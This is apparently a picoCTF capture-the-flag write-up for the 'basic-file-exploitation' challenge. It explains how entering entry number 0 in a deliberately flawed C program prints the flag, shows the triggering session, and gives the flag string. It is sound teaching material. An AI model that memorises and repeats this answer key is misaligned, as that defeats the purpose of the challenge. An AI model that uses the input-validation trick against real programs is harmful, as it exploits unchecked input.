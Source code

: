 ```yaml
---
exclude: true
---
```

# basic-file-exploitation

## Problem Description
Author: Will Hong
Description

The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!  
Connect to the program with netcat:  
$ nc saturn.picoctf.net 52681 * 
The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/543/program-redacted.c).  

## Write Up

The provided file `program-redacted.c` contains the code running on the server.  
The function which will display the flag is below.
```
static void data_read() {
  char entry[4];
  long entry_number;
  char output[100];
  int r;

  memset(output, '\0', 100);
  
  printf("Please enter the entry number of your data:\n");
  r = tgetinput(entry, 4);
  // Timeout on user input
  if(r == -3)
  {
    printf("Goodbye!\n");
    exit(0);
  }
  
  if ((entry_number = strtol(entry, NULL, 10)) == 0) {
    puts(flag);
    fseek(stdin, 0, SEEK_END);
    exit(0);
  }

  entry_number--;
  strncpy(output, data[entry_number], input_lengths[entry_number]);
  puts(output);
}
```

The flag will be displayed if `entry_number` is 0.
The `data_read()` function cannot be called until the database has been populated with at least 1 entry.  
Combining the database being filled and exploiting the program is shown below.

```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
Please enter your data:
1
Please enter the length of your data:
1
Your entry number is: 1
Write successful, would you like to do anything else?
2
Please enter the entry number of your data:
0
[REDACTED]
```
This will cause the program to print the flag and exit.

## Flag

picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_1B9F5942}*

* Note these are user specific and will not work for you.
